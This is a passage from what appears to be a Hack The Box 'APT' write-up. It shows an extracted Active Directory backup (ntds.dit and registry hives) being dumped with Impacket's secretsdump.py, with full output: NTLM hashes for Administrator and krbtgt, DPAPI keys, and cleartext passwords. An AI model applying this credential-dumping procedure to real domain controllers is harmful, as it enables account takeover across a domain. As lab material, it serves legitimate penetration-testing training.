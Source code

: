 ```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] Active Directory/ntds.dit password: 
  inflating: Active Directory/ntds.dit  
  inflating: Active Directory/ntds.jfm  
  inflating: registry/SECURITY       
  inflating: registry/SYSTEM
```

Using this password I was able to successfully extract all of the files.

### secretsdump.py

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ secretsdump.py -ntds 'Active Directory/ntds.dit' -system registry/SYSTEM -security registry/SECURITY LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x936ce5da88593206567f650411e1d16b
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:34005b00250066006f0027007a004700600026004200680052003300630050005b002900550032004e00560053005c004c00450059004f002f0026005e0029003c00390078006a0036002500230039005c005c003f0075004a0034005900500062006000440052004b00220020004900450053003200660058004b00220066002c005800280051006c002a0066006700300052006600520071003d0021002c004200650041005600460074005e0045005600520052002d004c0029005600610054006a0076002f005100470039003d006f003b004700400067003e005600610062002d00550059006300200059006400
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb
[*] DefaultPassword
(Unknown User):Password123!
[*] DPAPI_SYSTEM
dpapi_machinekey:0x3e0d78cb8f3ed66196584c44b5701501789fc102
dpapi_userkey:0xdcde3fc585c430a72221a48691fb202218248d46
[*] NL$KM
 0000   73 4F 34 1D 09 C8 F9 32  23 B9 25 0B DF E2 DC 58   sO4....2#.%....X
 0010   44 41 F2 E0 C0 93 CF AD  2F 2E EB 13 81 77 4B 42   DA....../....wKB
 0020   C2 E0 6D DE 90 79 44 42  F4 C2 AD 4D 7E 3C 6F B2   ..m..yDB...M~<o.
 0030   39 CE 99 95 66 8E AF 7F  1C E0 F6 41 3A 25 DA A8   9...f......A:%..
NL$KM:734f341d09c8f93223b9250bdfe2dc584441f2e0c093cfad2f2eeb1381774b42c2e06dde90794442f4c2ad4d7e3c6fb239ce9995668eaf7f1ce0f6413a25daa8
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 1733ad403c773dde94dddffa2292ffe9
[*] Reading and decrypting hashes from Active Directory/ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
APT$:1000:aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:72791983d95870c0d6dd999e4389b211:::

...snipped 1000s of random users...

[*] ClearText password from Active Directory/ntds.dit
APT$:CLEARTEXT:4[%fo'zG`&BhR3cP[)U2NVS\LEYO/&^)<9xj6%#9\\?uJ4YPb`DRK" IES2fXK"f,X(Ql*fg0RfRq=!,BeAVFt^EVRR-L)VaTjv/QG9=o;G@g>Vab-UYc Yd
[*] Cleaning up...
```
